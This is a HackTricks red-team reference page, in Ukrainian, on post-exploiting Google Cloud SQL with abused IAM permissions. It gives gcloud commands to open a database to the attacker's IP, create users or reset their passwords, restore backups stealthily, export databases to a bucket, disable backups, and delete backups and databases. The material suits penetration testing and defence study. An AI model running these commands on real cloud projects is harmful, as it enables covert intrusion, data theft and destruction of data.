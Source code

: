 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Для отримання додаткової інформації про Cloud SQL перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Щоб підключитися до бази даних, вам **потрібен доступ до порту бази даних** і знати **ім'я користувача** та **пароль**, немає жодних вимог IAM. Отже, простий спосіб отримати доступ, якщо база даних має публічну IP-адресу, - це оновити дозволені мережі та **дозволити вашій власній IP-адресі отримати доступ до неї**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Також можливо використовувати **`--no-backup`** для **порушення резервних копій** бази даних.

Оскільки це вимоги, я не зовсім впевнений, для чого потрібні дозволи **`cloudsql.instances.connect`** та **`cloudsql.instances.login`**. Якщо ви знаєте, надішліть PR!

### `cloudsql.users.list`

Отримати **список усіх користувачів** бази даних:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ця дозволяє **створити нового користувача всередині** бази даних:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Цей дозвіл дозволяє **оновлювати користувача всередині** бази даних. Наприклад, ви можете змінити його пароль:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Резервні копії можуть містити **стару чутливу інформацію**, тому їх варто перевірити.\
**Відновіть резервну копію** всередині бази даних:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Щоб зробити це більш приховано, рекомендується створити новий SQL екземпляр і відновити дані там, а не в поточних базах даних.

### `cloudsql.backupRuns.delete`

Ця дозволяє видаляти резервні копії:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Експортуйте базу даних** до Cloud Storage Bucket, щоб ви могли отримати до неї доступ звідти:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Імпортувати базу даних** (перезаписати) з Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Видалити базу даних з екземпляра бази даних:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
